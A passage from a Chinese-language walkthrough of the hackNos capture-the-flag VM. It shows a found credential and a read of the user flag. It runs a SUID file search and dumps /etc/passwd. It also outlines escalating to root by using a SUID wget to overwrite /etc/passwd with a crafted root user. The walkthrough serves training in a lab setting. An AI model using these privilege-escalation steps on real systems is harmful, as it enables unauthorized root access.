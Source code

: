 得到james:hacker@4514



通过查找，在home中找到james和其目录下的user.txt

```
www-data@hackNos:/home/james$ cat user.txt
cat user.txt
   _                                  
  | |                                 
 / __) ______  _   _  ___   ___  _ __ 
 \__ \|______|| | | |/ __| / _ \| '__|
 (   /        | |_| |\__ \|  __/| |   
  |_|          \__,_||___/ \___||_|   
                                      
                                      

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

```

试着提权，先看看suid提权，需要搜索到，带有s的文件，开始查找。

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20230628232332862](image-20230628232332862.png)

发现wget普通用户也可执行

那么提权的方式就是通过下载目标靶机上的passwd，然后构造一个有root权限的用户加入到构造的passwd文件中，然后使用wget -O将内容重定向输入到/etc/passwd中



首先通过cat /etc/passwd获取靶机密码

```
www-data@hackNos:/var/www/html/drupal$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
james:x:1000:1000:james,,,:/home/james:/bin/bash
```